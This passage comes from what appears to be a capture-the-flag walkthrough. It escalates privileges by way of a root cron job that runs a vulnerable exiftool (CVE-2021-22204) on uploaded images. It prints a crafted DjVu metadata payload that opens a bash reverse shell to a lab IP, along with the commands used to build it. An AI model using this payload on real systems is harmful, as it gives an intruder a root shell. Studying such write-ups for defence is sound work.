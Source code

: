 The following is sus
	`* *     * * *   root    bash /opt/image-exif.sh`
The shell `/opt/image-exif.sh` will be executed every one minute by `root`.

We can read the file
```bash
www-data@exfiltrated:/opt$ cat image-exif.sh
cat image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

Primarily, the script will look for any `jpg` file in the `/var/www/html/subrion/uploads` directory and execute `exiftool` against that file.

Checking the version of `exiftool` on the machine
```bash
www-data@exfiltrated:/opt$ exiftool -ver
exiftool -ver
11.88
```
The result implies that the current `exiftool` might be exploitable. We can test our theory by navigating along the [PoC](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce):

First we craft our exploit on local machine acccording to the givens steps of `CVE-2021-22204`
````
sudo apt-get update && sudo apt-get install -y djvulibre-bin
````
Now we craft an exploit for a `root` reverseshell
```
$ cat payload

(metadata "\c${system('bash -c \"bash -i >& /dev/tcp/192.168.45.197/2222 0>&1\"')};")
```

Now compress the payload using `bzz`
```bash
$ bzz payload payload.bzz
```
